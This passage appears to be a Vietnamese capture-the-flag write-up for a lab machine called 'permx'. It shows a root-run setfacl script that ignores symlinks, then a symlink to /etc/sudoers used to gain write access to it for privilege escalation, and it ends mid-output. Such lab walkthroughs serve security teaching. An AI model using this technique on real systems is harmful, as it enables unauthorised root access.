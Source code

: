 <img width="1311" height="228" alt="image" src="https://github.com/user-attachments/assets/b4ab3695-c895-4021-9d53-4f80d3ff4190" />

Tôi check thì có file được chạy dưới quyền root mà không cần mật khẩu:
```
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
mtz@permx:~$ cat /opt/acl.sh 
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```
Đoạn script này cấp quyền file cho user như rwx, nó yêu cầu thư mục nằm trong `/home/mtz/` và cấm `..` để tránh path traversal, cơ mà đoạn script này chưa kiểm tra trường hợp sử dụng symlink

Tôi tạo symlink đến `/etc/sudoers` sau đó thực thi đoạn script để cấp quyền đọc và ghi, sau đó thêm quyền vào cho user `mtz` để leo lên root:
```
mtz@permx:~$ ln -sf /etc/sudoers /home/mtz/abcd
mtz@permx:~$ ls -la
total 32
drwxr-x--- 4 mtz  mtz  4096 Sep 12 07:13 .
drwxr-xr-x 3 root root 4096 Jan 20  2024 ..
lrwxrwxrwx 1 mtz  mtz    12 Sep 12 07:13 abcd -> /etc/sudoers
lrwxrwxrwx 1 root root    9 Jan 20  2024 .bash_history -> /dev/null
-rw-r--r-- 1 mtz  mtz   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 mtz  mtz  3771 Jan  6  2022 .bashrc
drwx------ 2 mtz  mtz  4096 May 31  2024 .cache
lrwxrwxrwx 1 root root    9 Jan 20  2024 .mysql_history -> /dev/null
-rw-r--r-- 1 mtz  mtz   807 Jan  6  2022 .profile
drwx------ 2 mtz  mtz  4096 Jan 20  2024 .ssh
-rw-r----- 1 root mtz    33 Sep 11 06:53 user.txt
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/abcd 
mtz@permx:~$ ls -la
total 32
drwxr-x--- 4 mtz  mtz  4096 Sep 12 07:13 .
drwxr-xr-x 3 root root 4096 Jan 20  2024 ..
lrwxrwxrwx 1 mtz  mtz    12 Sep 12 07:13 abcd -> /etc/sudoers
lrwxrwxrwx 1 root root    9 Jan 20  2024 .bash_history -> /dev/null
-rw-r--r-- 1 mtz  mtz   220 Jan  6  2022 .bash_logout
```